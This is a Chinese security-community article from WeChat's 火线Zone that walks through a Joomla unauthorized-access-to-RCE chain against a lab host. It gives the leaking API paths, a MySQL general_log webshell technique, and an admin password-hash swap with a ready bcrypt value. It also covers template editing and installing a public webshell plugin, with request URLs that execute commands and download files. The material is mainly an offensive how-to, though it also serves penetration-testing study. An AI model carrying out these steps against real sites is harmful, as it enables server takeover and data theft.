 #  Joomla Unauthorized"后"渗透到RCE

Betta  [ 火线Zone ](javascript:void\(0\);)

**火线Zone** ![]()

微信号 huoxian_zone

功能介绍
火线Zone是火线安全平台运营的安全社区，拥有超过20,000名可信白帽安全专家，内容涵盖渗透测试、红蓝对抗等热门主题，旨在研究讨论实战攻防技术，2年内已贡献1300+原创攻防内容，提交了100,000+原创安全漏洞。

____

___发表于_

收录于合集

![](https://gitee.com/fuli009/images/raw/master/public/20230622234617.png)

**前言**

前文已经分析过了Joomla Unauthorized的漏洞成因，总的来说是由于函数array_merge()变量覆盖引起的，未授权的api接口很多。

  

 **Joomla Unauthorized RCE1**

api路径

  * 

    
    
    api/index.php/v1/config/application?public=true

http://joomla.net:8011/api/index.php/v1/config/application?public=true

  

![](https://gitee.com/fuli009/images/raw/master/public/20230622234619.png)

登录mysql写入webshell，有条件限制

  * 通过log写入webshell

  *   *   *   * 

    
    
    数据库的当前用户为ROOT或拥有FILE权限；（FILE权限指的是对服务器主机上文件的访问）明确网站路径general_log参数值为ONgeneral_log_file参数为webshell路径

  * 通过函数outfile写入webshell（该传统方式 **不可行** ）  

Joomla漏洞版本无注入点无法通过注入点和outfile函数写入webshell

  

 **Joomla Unauthorized RCE2** ****

 **  
**

 **进入后台administrator的方法1**  

通过未授权api

  * 

    
    
    api/index.php/v1/users?public=true

![](https://gitee.com/fuli009/images/raw/master/public/20230622234620.png)![](https://gitee.com/fuli009/images/raw/master/public/20230622234621.png)

可读取用户信息，使用社工方式暴力破解登录后台，利用进行RCE

  

 **进入后台administrator的方法2**

  * 修改模板文件

获取mysql权限后执行sql语句或者使用工具修改后端管理员密码或者其他用户密码，joomla有自己的加密算法，所以也没必要破解他们的加密方式，老版本搭建后使用用户的哈希值更换

  * 

    
    
    Toggle Menu->Users-Manage

![]()

  * 

    
    
    123456123456::$2y$10$GauLOsp1NBJLO0FGjlqhxOu8LZe9wconNuPwqgjX/pGxAqn7dL5ba

![](https://gitee.com/fuli009/images/raw/master/public/20230622234622.png)

修改admin的密码为该密码

![](https://gitee.com/fuli009/images/raw/master/public/20230622234623.png)

可登录后台

  

 **后台RCE的两种方式**

![](https://gitee.com/fuli009/images/raw/master/public/20230622234624.png)

  * 

    
    
     Toggle Menu->System->Templates->Site Templates->cassiopeia

![](https://gitee.com/fuli009/images/raw/master/public/20230622234625.png)

修改模板文件,添加恶意代码实现命令执行，获取webshell

![](https://gitee.com/fuli009/images/raw/master/public/20230622234626.png)

测试webshell

![](https://gitee.com/fuli009/images/raw/master/public/20230622234627.png)

  * 导入恶意插件

项目地址

  * 

    
    
    https://github.com/p0dalirius/Joomla-webshell-plugin

路径  

  * 

    
    
    Toggle Menu->System-> Extensions

![](https://gitee.com/fuli009/images/raw/master/public/20230622234628.png)

下载地址

  * 

    
    
    https://github.com/p0dalirius/Joomla-webshell-plugin/releases/tag/1.1

上传下载的恶意插件  

![](https://gitee.com/fuli009/images/raw/master/public/20230622234629.png)

上传成功后查看插件管理

  * 

    
    
    http://joomla.net:8011/administrator/index.php?option=com_installer&view=manage

![](https://gitee.com/fuli009/images/raw/master/public/20230622234631.png)

  

  * 

    
    
    http://joomla.net:8011/modules/mod_webshell/mod_webshell.php?action=exec&cmd=whoami

![](https://gitee.com/fuli009/images/raw/master/public/20230622234632.png)

成功执行命令

当前目录下创建一个1.txt,，文件内容如下

![](https://gitee.com/fuli009/images/raw/master/public/20230622234633.png)

  * 

    
    
    http://joomla.net:8011/modules/mod_webshell/mod_webshell.php?action=download&path=./1.txt

![](https://gitee.com/fuli009/images/raw/master/public/20230622234634.png)

文件内容为

![](https://gitee.com/fuli009/images/raw/master/public/20230622234635.png)

  

参考文章

https://github.com/p0dalirius/Joomla-webshell-plugin

https://vulncheck.com/blog/joomla-for-rce

  

往期推荐

[![]()](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497860&idx=1&sn=4c71ce1396dba6f0880e45d74732c6e2&chksm=eaa970a4dddef9b2eedb3686dcb1b07e25c1bb3904bc6e5f9f349883ff4148013e9c37a0797c&scene=21#wechat_redirect)

[![](https://gitee.com/fuli009/images/raw/master/public/20230622234636.png)](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497953&idx=1&sn=0c825a2c7832e8b760ad45a77a1b8359&chksm=eaa970c1dddef9d745224f7fdcf496465ef248e460d520d335fa8b1e8f65899aba6efdc16b86&scene=21#wechat_redirect)

[![](https://gitee.com/fuli009/images/raw/master/public/20230622234638.png)](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497941&idx=1&sn=5a222c66d2a456b1c08a5bcbd6700535&chksm=eaa970f5dddef9e3f3d943bb064113b43a3665f76f36b7d26e021eb58ddd8ecad94c80c18ec5&scene=21#wechat_redirect)

  

![]()

火线Zone是火线安全平台运营的安全社区，拥有超过20,000名可信白帽安全专家，内容涵盖渗透测试、红蓝对抗、漏洞分析、代码审计、漏洞复现等热门主题，旨在研究讨论实战攻防技术，助力社区安全专家技术成长，2年内已贡献1300+原创攻防内容，提交了100,000+原创安全漏洞。  

欢迎具备分享和探索精神的你加入火线Zone社区，一起分享技术干货，共建一个有技术氛围的优质安全社区！

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

